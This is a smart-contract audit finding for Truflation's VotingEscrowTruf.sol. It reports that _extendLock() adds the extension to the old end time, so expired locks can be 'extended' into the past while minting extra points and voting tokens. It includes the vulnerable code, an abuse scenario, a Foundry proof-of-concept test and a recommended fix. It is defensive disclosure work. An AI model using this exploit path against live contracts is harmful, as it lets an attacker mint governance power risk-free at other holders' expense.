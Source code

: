Savory Peanut Falcon

medium

# An expired lock can be extended with a past `end` timestamp while increasing points

## Summary

The function description in `_extendLock()` in `VotingEscrowTruf.sol` states: 

> The stake end time is computed from the current time + duration, just like it is for new stakes. So a new stake for seven days duration and an old stake extended with a seven days duration would have the same end.

But the function calculates the new end time by adding the new specified duration to the previous end time instead of the current time.

## Vulnerability Detail

This allows for an user to extend a past lock and have the new expiry date to be in the past as well. In addition to this, the function description does not match the implementation. 

The new end is calculated at [#L351](https://github.com/sherlock-audit/2023-12-truflation/blob/main/truflation-contracts/src/token/VotingEscrowTruf.sol#L351) in `VotingEscrowTruf.sol`:

```solidity
    function _extendLock(address user, uint256 lockupId, uint256 duration, bool isVesting) internal {
        // duration checked inside previewPoints
        Lockup memory lockup = lockups[user][lockupId];

        //...SNIP...

        uint256 oldEnd = lockup.end;
        uint256 oldPoints = lockup.points;
        uint256 newDuration = lockup.duration + duration;

        (uint256 newPoints,) = previewPoints(amount, newDuration); // <-- EXTRA POINTS ARE CALCULATED REGARDLESS

        //...SNIP...
        
        uint256 newEnd = oldEnd + duration; // <-- NEW END IS OLD END PLUS DURATION

        uint256 mintAmount = newPoints - oldPoints;

        lockup.end = uint128(newEnd);
        lockup.duration = uint128(newDuration);
        lockup.points = newPoints;

        lockups[user][lockupId] = lockup;

        stakingRewards.stake(user, mintAmount);
        _mint(user, mintAmount);

       //...SNIP...
    }
```

## Impact

Alice could abuse this by staking and locking a large amount of tokens for the minimum duration accepted. Then when necessary she can extend the lock with an end time that it's in the past by a few seconds relative to the timestamp when the transaction was executed, keeping the funds unlocked but increasing her `points`.

Alice increases her `points` and mints `VotingEscrowTruf ERC20Votes tokens` herself risk-free because she can unstake whenever she wants. Innocent users have to effectively lock their tokens to get the same result, but they have to take the risk of actually locking their tokens to do so.

It's hard to find information about the token of `VotingEscrowTruf.sol` but it's `ERC20Votes` token, meaning it might be used for governance votes at some point.

## Code Snippet

https://github.com/sherlock-audit/2023-12-truflation/blob/main/truflation-contracts/src/token/VotingEscrowTruf.sol#L351

## POC 

Copy and paste this test function in `VotingEscrowTruf.t.sol` to test the issue:

```solidity
    function testExtendLockPast() external {
        console.log("POC: Extend duration of lockup in the past");

        uint256 amount = 100e18;
        uint256 duration = 30 days;

        console.log("1. Alice stakes 100e18 tokens for 30 days");
        _stake(amount, duration, alice, alice);

        console.log("2. 100 days pass by");
        vm.warp(block.timestamp + 100 days);


        uint256 extendDuration = 60 days;
        vm.startPrank(alice);

        (,,,uint256 beforePoints,) = veTRUF.lockups(alice, 0);

        console.log("3. Alice extends her past lock by 60 days. This results in the lock being expired 10 days ago (100 days passed - (30 days initial + 60 days extension))");
        veTRUF.extendLock(0, extendDuration);

        (,,  uint128 _ends, uint256 afterPoints,) = veTRUF.lockups(alice, 0);
        console.log("   > Alice has %s more points", afterPoints - beforePoints);
        assertGt(block.timestamp, _ends);

        console.log("4. Alice can unstake her tokens because the lock is expired.");
        veTRUF.unstake(0);
        vm.stopPrank();
    }
```
## Tool used

Manual Review

## Recommendation

Don't allow the extension of an expired lock. If the extension of an expired lock needs to be allowed make sure to not account for the time when the lock expired to the current timestamp when calculating the amount of `points` the user should receive. 
